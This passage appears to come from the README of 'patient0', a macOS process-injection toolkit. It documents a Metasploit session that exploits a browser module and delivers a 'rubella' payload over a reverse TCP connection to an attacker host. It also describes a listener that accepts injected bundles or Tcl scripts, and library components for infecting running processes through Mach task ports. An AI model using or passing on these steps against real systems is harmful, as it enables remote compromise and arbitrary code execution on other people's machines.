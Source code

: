 In order to use `patient0` with Metasploit, run the following build command
and follow the instructions on the screen:

    make metasploit

With the files in place, you can inject `patient0` with `rubella` into a
vulnerable application. The payload is sent and injected over a reverse TCP
connection which is not maintained:

    ./msfconsole
    msf> use exploit/osx/browser/awesome
    msf[awesome]> set payload osx/x86/rubella/reverse_tcp
    msf[awesome]> set SRVPORT=8080
    msf[awesome]> set LHOST=192.168.1.75 # this machine
    msf[awesome]> exploit
    ... wait ...
    msf[awesome]>

Currently, `rubella` doesn't phone home.  However, it can run an arbitrary
Tcl script.  Currently, that script is `web.tcl`.  It binds to port 8081
and listens for a connection.  Any bundle or Tcl script can be injected.
The approach is convoluted, but flexible enough (for now).

See the section below on `rubella` for a bit more detail and an example
usecase.


## Components

### libpatient0.a

#### include/patient0/spawn.h

The spawn components provides utility functions for starting a process while
retaining its mach task port which may be used by the infection component
below.

#### include/patient0/infect.h

The infect component provides utility functions for injecting a bundle in to a
running process using its mach task.  This uses a modified version of Dino Dai
Zovi's inject_bundle.s from the Metasploit project.

#### include/patient0/process.h

The process component provides utility functions for interacting with
the currently running processes on the system prior to acquiring task handles.

#### include/patient0/runtime.h

The runtime component provides a few helper functions foruse when writing
pathogens.  For instance, you may want to avoid exitting ungracefully when
your bundle runtime exits.  To avoid this, you can deadlock it with
    runtime_deadlock();


[1]: http://felinemenace.org/~nemo  "Neil 'nemo' Archibald"
[2]: http://theta44.org "Dino Dai Zovi"
[3]: http://www.foldr.org/~michaelw/log/computers/macosx/task-info-fun-with-mach "Michael Weber"
[4]: http://rentzsch.com "Jon Rentzsch"
[5]: http://osxbook.com "Amit Singh's Mac OS X Internals Book"
[6]: http://metasploit.org "Metasploit Framework"